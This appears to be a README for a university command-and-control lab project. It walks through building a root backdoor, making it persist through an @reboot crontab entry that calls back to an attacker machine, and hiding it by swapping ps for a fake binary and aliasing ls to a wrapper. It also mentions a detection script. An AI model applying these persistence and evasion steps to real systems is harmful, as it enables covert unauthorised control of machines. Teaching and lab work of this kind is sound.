 # C S 378 - Command and Control Project (Donald and Vincent)

## Set Up

### Configure IP (IMPORTANT)

Edit the IP addresses in the **_config.py_** file to match the IP address of the attacker and target machine. Can also set which port number the attacker machine will use to listen.

### Creating executables (IMPORTANT)

To create the attacker and backdoor executable things, run the make file. One file named 'attacker'
and another file named 'backdoor' should be created.

This must be done for the configured IP to work.

### Setting Up and Running Backdoor 

#### Installing necessary packages (on week 4)

Run the following commands as root on the week 4 machine:

sed -i 's/mirrorlist/#mirrorlist/g' /etc/yum.repos.d/CentOS-*

sed -i 's|#baseurl=http://mirror.centos.org|baseurl=http://vault.centos.org|g' /etc/yum.repos.d/CentOS-*

sudo yum install -y python3

python3 -m pip install pexpect

python3 -m pip install -U pip setuptools

python3 -m pip install cryptography

#### Creating reboot cronjob 

Place the 'backdoor' executable in the /bin directory of the target machine.

Run **_chmod 755 backdoor_** to give execute permissions.

Run the command **_sudo crontab -e_**

Scroll to the bottom (after all #) and add the line: **_@reboot python3 /bin/backdoor &_**

Reboot the system (**_sudo reboot_**), cronjob should run every restart. Backdoor should call out
to attacker machine every 10 seconds (can edit this amount of time in **_config.py_**).

### Setting Up Detection Evasion

#### ls

In the evasion_and_detection folder, there is an **_ls_custom_** file. Take that and put it into the target machine at **_/usr/bin/ls_custom__**.

Give **_ls_custom_** executing privileges by running: **_chmod 755 /usr/bin/ls_custom_**

Run **_echo "alias ls='/usr/bin/ls_custom'" >> /etc/profile_** followed by **_source /etc/profile_** to reload the shell and apply these changes. The **_source_** call isn't necessary as the next time there is a login to the shell, the updated code will run. This just allows you to test the code without having to log out and back in. 

Now, whenever **_ls_** is run, the wrapper should run instead of the original binary.

#### ps

Place the ***fake_ps*** file found in the evasion_and_detection folder into the **_/bin_** directory of the target machine

Create a directory named **_orig_** in the **_/bin_** directory. 

Place the original **_ps_** file from the **_/bin_** directory into the **_/bin/orig_** directory.

Rename the ***fake_ps*** file to **_ps_**

### Setting Up and Running Attacker

Place the 'attacker' executable on the attack machine.

Run **_chmod +x attacker_** to give execute permissions.

Run **_./attacker_** in the command line to run the file and wait for the connection to be initiated by the target machine.

Once connection is made, we should be running as the root user and are in root's directory (at least when testing on Kali machine as target)

### BONUS: Detection Script

In the evasion_and_detection folder, there is an **_detect.py_** file. To run it, put it into the target machine and execute it using the following command: **_python3 detect.py_**.

There is a customization option within the python file, which is what files to look in when searching for aliases. We've included several start-up files to search within, one of which actually contains the alias we used to execute the ls wrapper. However, the list of files can easily be modified to better suit your needs.
